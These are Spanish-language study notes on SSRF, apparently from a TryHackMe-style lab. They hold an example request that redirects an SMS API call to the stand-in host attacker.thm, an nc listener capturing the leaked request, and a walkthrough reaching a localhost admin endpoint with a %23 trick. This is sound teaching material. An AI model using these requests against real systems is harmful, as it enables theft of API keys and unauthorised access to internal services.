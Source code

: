```yaml
---
layout: apunte
title: "22. X. Server-Side Request Forgery (SSRF)"
---
```


Este tipo de vulnerabilidad ocurre cuando un atacante convence a la aplicación web de mandar las peticiones en su representación a destinaciones arbitrarias mientras tiene el control sobre los contenidos de la petición en sí misma. Las vulnerabilidades SSRF comúnmente se ocasionan donde nuestra aplicación web utiliza servicios de terceros.

Piensa, por ejemplo, en una aplicación web que usa una API externa para mandar notificaciones SMS a sus clientes. Por cada email, la app tiene que realizar una petición web al servidor proveedor de SMS para mandar el mensaje.Ya que los proveedores de mensajería cobran por el uso de mensajes, nos piden añadir una clave secreta, que te preasignan. Los servidores API de claves como tokens de autentificación te permiten que el proveedor sepa quién eres.

![](/apuntes/img/Pasted image 20251013232653.png)

Mirando el diagrama arriba mostrado es fácil ver dónde está la vulnerabilidad. La aplicación expone el parámetro `server` a los usuarios, que define el nombre del servidor proveedor de SMS. Si un atacante quisiese, simplemente cambiaría el valor del parámetro `server` para apuntar a una máquina que ellos controlen. Como parte del mensaje, recibirían la clave API, permitiéndoles usar los servicios SMS a tu costa. Para hacerlo, sólo tendría que hace la siguiente petición a tu sitio web:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

Entonces simplemente capturarías el tráfico:

```http
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Aunque esto no parezca amenazante, SSRF se puede usar para:

- Enumerar redes internas, incluyendo direcciones IPs y puertos.
- Abusar relaciones de confianza entre servidores y ganar acceso a servicios de otra manera restringidos.
- Interactuar con algunos servicios no-HTTP para conseguir ejecución remota de comandos (RCE).

-----------------------
<h2>Challenge</h2>
1. Accedemos a la página web:
   ![](/apuntes/img/Pasted image 20251013233709.png)
2. Después de investigar un poco encontramos "admin area":
   ![](/apuntes/img/Pasted image 20251013233831.png)
3. Si nos fijamos, el servidor apunta a una dirección curiosa al descargar el CV:
   ![](/apuntes/img/Pasted image 20251013234005.png)
4. Haciendo uso de lo que hemos aprendido, vamos a intentar SSRF:
   ![](/apuntes/img/Pasted image 20251013234205.png)
5. Y voilà:
   ![](/apuntes/img/Pasted image 20251013234231.png)
6. Para acceder a admin podemos modificar url de la descarga del CV y meter localhost con el endpoint `admin`:
   ![](/apuntes/img/Pasted image 20251014000016.png)
7. La flag extra es:
   ![](/apuntes/img/Pasted image 20251014000039.png)

>[!NOTE] The `#` symbol indicates a fragment identifier in a URL, which is often used by browsers to navigate to a specific part of a webpage. When you add `%23` (the URL-encoded version of `#`), it may be tricking the server into treating it as part of the URL, allowing the request to reach the `/admin` endpoint. Without it, the server might not recognize the path correctly or could return a different response.

